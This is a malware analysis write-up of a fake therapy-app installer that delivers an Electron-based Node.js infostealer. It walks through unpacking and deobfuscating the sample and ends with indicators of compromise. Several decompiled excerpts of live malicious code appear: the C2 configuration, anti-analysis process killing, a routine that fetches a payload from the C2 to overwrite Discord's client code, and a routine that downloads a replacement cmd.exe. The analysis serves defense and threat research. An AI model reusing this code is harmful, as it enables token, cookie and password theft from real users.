





### <span style="color:lightblue">TL;DR</span>
A fake therapy installer distributed as an NSIS self-extracting archive
delivers an Electron-based Node.js infostealer. After passing anti-VM
checks, it injects malicious code into Discord clients, harvests Discord
tokens, browser cookies, saved passwords, and autofill data, and
exfiltrates everything to `illitmagnetic.site`.
### <span style="color:red">Initial Analysis</span>

It is a NSIS self-extracting archive. An NSIS package is essentially a self-extracting archive coupled with an installation system that supports a scripting language. It contains compressed files, along with installation instructions written in the NSIS scripting language.
```
nsis-installer.exe: PE32 executable for MS Windows 4.00 (GUI), Intel i386, Nullsoft Installer self-extracting archive, 5 sections
7a95214e7077d7324c0e8dc7d20f2a4e625bc0ac7e14b1446e37c47dff7eeb5b
imphash: b34f154ec913d2d2c435cbd644e91687
```

The binary contained a digital signature with the program name
`Windows Update Assistant`


#### <span style="color:red">NSIS</span>
To access the contents without running the installation package, I used 7-Zip. 
```console
$ 7z x nsis-installer.exe -o./extracted/
Extracting archive: nsis-installer.exe
...[snip]...

Everything is Ok              

Files: 8
Size:       78250603
Compressed: 78057262
```

NSIS supports a plugin system, which consists of DLL files that are placed by default in the $PLUGINSDIR directory.
```
.
├── $PLUGINSDIR
│   ├── app-32.7z
│   ├── nsExec.dll
│   ├── nsis7z.dll
│   ├── SpiderBanner.dll
│   ├── StdUtils.dll
│   ├── System.dll
│   └── WinShell.dll
└── $R0
    └── Uninstall SerenityTherapyInstaller.exe
```
\- `nsis7z.dll` — 7z extraction plugin  
\- `nsExec.dll` — command execution plugin  
\- `System.dll` — direct WinAPI call plugin  
\- `StdUtils.dll` — extended NSIS utilities  
\- `SpiderBanner.dll`** — UI plugin  
\- `WinShell.dll` — Windows Shell integration plugin  
\- `app-32.7z` - main funcionallity  


#### <span style="color:red">Electron Application</span>
Unpacking `app-32.7z` revealed an Electron application — a Chromium and
Node.js runtime packaged as a Windows executable, allowing JavaScript
malware to run as a native process:
```
...[snip]...
├── resources
│   ├── app.asar
│   └── elevate.exe
├── SerenityTherapyInstaller.exe
...[snip]...
```
The `app.asar` archive was extracted with `asar`. The extracted folder contains:
```
app.js:        JavaScript source, ASCII text, with very long lines (65536), with no line terminators
node_modules:  directory
package.json:  JSON text data
```
Malware's dependencies:
```json
{
  "name": "SerenityTherapyInstaller",
  "version": "1.0.0",
  "main": "app.js",
  "nodeVersion": "system",
  "bin": "app.js",
  "author": "SerenityTherapyInstaller Inc",
  "license": "ISC",
  "dependencies": {
    "@primno/dpapi": "1.1.1",
    "node-addon-api": "^7.0.0",
    "sqlite3": "^5.1.6",
    "systeminformation": "^5.21.22"
  }
}
```
#### <span style="color:red">Deobfuscation</span>
`app.js` was heavily obfuscated with hex-encoded identifiers and arithmetic
string lookups. Deobfuscation with Obfuscator.io produced no usable result.
```js
var _0x448105 = _0x14c9;
(function(_0x2f383b, _0x170714) {
    var _0x5f100f = _0x14c9, _0x3c3f7b = _0x2f383b();
    while (!![]) {
        try {
            var _0x2e3a8b = -parseInt(_0x5f100f(0x1088)) / ...
```

### <span style="color:red">Dynamic Analysis</span>
The obfuscated script was analyzed using the VS Code Debugger. A version
conflict with the bundled `sqlite3` module was identified on first run:



On the second run, the deobfuscated script appeared in the "Loaded Scripts"
panel as `<eval> / VM46947589` — 800+ lines of readable JavaScript:




### <span style="color:red">Static Analysis</span>

The decompiled source reveals the full capability set of the malware:

- `getDiscordTokens`, `discordInjection` - harvests Discord tokens and
  injects malicious code into the Discord client
- `stealFirefoxTokens` - extracts saved session tokens from Firefox
- `browserCookies`, `getBrowserCookies`, `getFirefoxCookies` — steals
  cookies across Chromium-based browsers and Firefox
- `browserPasswords`, `getBrowserPasswords` — extracts saved credentials
  from browser password stores
- `browserAutofills`, `getBrowserAutofills` — harvests autofill data
- `tokenRequests`, `checkToken` — validates and exfiltrates harvested tokens
- `newInjection` - generic injection capability
- `checkCmdInstallation` — checks for presence of specific tools,
  likely for persistence or lateral movement
- `kill` — terminates processes

#### C2 config
Сontained a hardcoded configuration block that revealed the
С2 domain `illitmagnetic.site`, target Discord user ID, and whether to log out
the victim from Discord after token theft.
```js
const options = {
    api: 'https://illitmagnetic.site/api/',
    user_id: '6270048187',
    logout_discord: 'false'
};
```

#### Anti-VM
Exits if RAM is under 2GB, hostname matches a hardcoded blocklist of known
analysis machines, or kills any recognized analysis tools found in the
running process list.
```js
function checkVm() {
    if(Math.round(totalmem() / (1024 * 1024 * 1024)) < 2) process.exit(1);
    if(['bee7370c-8c0c-4', 'desktop-nakffmt', 'win-5e07cos9alr', ...
    ].includes(hostname().toLowerCase())) process.exit(1);

    const tasks = execSync('tasklist');
    ['wireshark', 'fiddler', 'vboxservice', 'vmtoolsd', 'ida64', 'x32dbg', ...
    ].forEach((task) => {
        if(tasks.includes(task))
            execSync(`taskkill /f /im ${task}.exe`);
    });
};
```

#### Discord Injection
Fetched a malicious `index.js` from the C2 and overwrote the legitimate
`discord_desktop_core-1/index.js` in all installed Discord variants
(Discord, DiscordCanary, DiscordPTB), then restarted the client to
load the injected code:
```js
async function discordInjection() {
    [join(LOCALAPPDATA, 'Discord'), join(LOCALAPPDATA, 'DiscordCanary'),
     join(LOCALAPPDATA, 'DiscordPTB')].forEach(async(dir) => {
        const data = await fetch(options.api + 'injections', ...);
        writeFileSync(discord_index, data?.discord);
        await kill(['discord', 'discordcanary', 'discordptb']);
        exec(`Update.exe --processStart Discord.exe`);
    });
};
```

#### checkCmdInstallation
Verified the presence of `cmd.exe` at `C:\Windows\system32\cmd.exe`. If
absent — a sandbox or restricted environment indicator — it fetched a
replacement `cmd.exe` from the C2 and wrote it to `%USERPROFILE%\Documents\`,
then redirected `ComSpec` to point to the downloaded binary.
```js
async function checkCmdInstallation() {
    if(!existsSync('C:\\Windows\\system32\\cmd.exe')) {
        const response = await fetch(options.api + 'cmd-file', ...);
        writeFileSync(join(process.env.USERPROFILE, 'Documents', 'cmd.exe'),
            Buffer.from(response?.buffer));
        process.env.ComSpec = join(process.env.USERPROFILE, 'Documents', 'cmd.exe');
    }
};
```

#### Browser Data Collection
Killed all running browser processes before accessing locked database
files, then collected cookies, saved passwords, and autofill entries
from Chromium-based browsers by decrypting the `Local State` master key
via DPAPI and decrypting each value with `AES-256-GCM`. Firefox cookies
were read directly from `moz_cookies` via SQLite. All collected data was
POSTed to `options.api + 'browsers-data'`.

#### newInjection
Collected system fingerprint data (OS, CPU, RAM, uptime) and the victim's
external IP via `ipinfo.io`, then reported the infection to
`options.api + 'new-injection'` along with the list of successfully
injected Discord clients.

### <span style="color:red">Sandbox</span>

### <span style="color:lightblue">IOCs</span>

**Files**  
\- `nsis-installer.exe`  
\- SHA256: `7a95214e7077d7324c0e8dc7d20f2a4e625bc0ac7e14b1446e37c47dff7eeb5b`    
\- `SerenityTherapyInstaller.exe`  

**Network**  
\- C2 API: `https://illitmagnetic.site/api/`  
\- Fingerprint: `https://ipinfo.io/json`  
\- Discord API: `https://discord.com/api/v10`  

**Registry / Filesystem**  
\- `%USERPROFILE%\Documents\cmd.exe` — dropped if `cmd.exe` absent  
\- Discord `discord_desktop_core-1\index.js` — overwritten with C2 payload  